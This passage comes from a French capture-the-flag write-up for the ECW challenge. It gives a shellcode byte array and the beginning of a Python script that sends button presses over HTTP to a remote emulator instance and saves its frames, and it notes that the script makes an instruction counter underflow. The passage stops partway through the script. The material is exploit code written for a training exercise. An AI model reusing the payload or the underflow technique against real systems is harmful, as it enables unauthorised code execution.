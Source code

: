 ```py
payload = [0xBB, 0xC0, 0x11, 0xFA, 0x06, 0xD5, 0x21, 0x04,
             0x12, 0xE5, 0x3E, 0x01, 0xF5, 0x33, 0x00, 0x00,
             0x04, 0xCD, 0xC0, 0x10, 0xE8, 0x05, 0x11, 0xD0,
             0xF7, 0xCD, 0x9B, 0x13]
```


## Code final

Une fois notre payload construit, il ne reste plus qu'à interagir avec l'instance distante : 

```py
import requests
import shutil

BUTTON_RIGHT_ARROW  = 0x001
BUTTON_LEFT_ARROW   = 0x002
BUTTON_UP_ARROW     = 0x004
BUTTON_DOWN_ARROW   = 0x008
BUTTON_A            = 0x010
BUTTON_B            = 0x020
BUTTON_SELECT       = 0x040
BUTTON_START        = 0x080
BUTTON_RESET        = 0x100

PORT = 40535
HOST = "instances.challenge-ecw.fr"
  
shellcode = [0xBB, 0xC0, 0x11, 0xFA, 0x06, 0xD5, 0x21, 0x04,
             0x12, 0xE5, 0x3E, 0x01, 0xF5, 0x33, 0x00, 0x00,
             0x04, 0xCD, 0xC0, 0x10, 0xE8, 0x05, 0x11, 0xD0,
             0xF7, 0xCD, 0x9B, 0x13]

  
def press_button(button: int):
    """
    Send a button press to the remote emulator
    """
    requests.get(f"http://{HOST}:{PORT}/setState?state={button}")
    requests.get(f"http://{HOST}:{PORT}/setState?state=0")

def save_frame(path: str):
    """
    Save the current frame to a PNG image
    """
    response = requests.get(f"http://{HOST}:{PORT}/render", stream=True)
    response.raw.decode_content = True

    with open(path, "wb") as f:
        shutil.copyfileobj(response.raw, f)

    print(f"[*] Frame saved at '{path}'")

def main():

    # Initialisation
    press_button(BUTTON_RESET)
    press_button(BUTTON_A)
    press_button(BUTTON_LEFT_ARROW)
    
    # Make inst_count underflow to 0xFF
    for i in range(0, 4):
        press_button(BUTTON_SELECT)

```